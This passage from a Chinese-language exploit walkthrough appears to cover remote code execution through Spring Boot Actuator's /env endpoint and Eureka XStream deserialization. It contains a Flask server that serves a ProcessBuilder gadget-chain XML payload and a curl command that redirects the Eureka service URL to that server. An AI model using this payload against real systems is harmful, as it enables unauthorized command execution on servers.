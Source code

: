 ```plain
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>""".format(command=command)
  return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8090)
```

**(2) 设置 eureka.client.serviceUrl.defaultZone 属性**

\*有的话这里要先记录下本来的属性值

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone=http://127.0.0.1:8090/xxxxxsuibiantianxx" http://localhost:9093/env
```

成功设置，如下图所示：

[![](assets/1703152930-a2c7daabd702169a08a1f9202ce6abfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)

**(3) 触发**
